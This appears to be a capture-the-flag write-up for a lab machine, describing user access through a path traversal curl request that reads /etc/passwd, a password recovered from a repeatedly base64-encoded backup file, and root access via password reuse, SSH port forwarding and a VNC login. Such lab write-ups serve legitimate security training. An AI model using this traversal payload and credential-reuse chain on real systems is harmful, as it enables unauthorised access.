 ![logo](./logo.png)

# USER

Website hosted on the :80 port allows for shell script testing

listfiles.php gives a directory listing.
A file called pwdbackup.txt is shown

It's base64 encoded 13 times. Decoding gives us:

```
Charix!2#4%6&8(0
```

By traversing to the passwd file we can get the username

```
curl 'http://10.10.10.84/browse.php?file=..%2F..%2F..%2F..%2F..%2Fetc%2Fpasswd'
```

Therefore we can log into ssh using:

```
charix
ssh charix@10.10.10.84
```

This allows us to get the user.txt

# ROOT

In the directory is a secret.zip

The .zip file is password protected. Will run it through a rockyou script
No need for the brute force. The password is re-used from the user account

You can see listening services

```
netstat -an 
```

You can create tunneled ssh using -L local_port:address:remote_port

```
ssh -L 5801:127.0.0.1:5801 -L 5901:127.0.0.1:5901 charix@10.10.10.84
```

# This allows us to connect to the port on our base machine. Running:

```
curl 127.0.0.1:5901
```

# Then by using the secret we found ealier we can authenticate with the VNC server and gain a shell

```
vncviewer 127.0.0.1::5901 -passwd secret
```
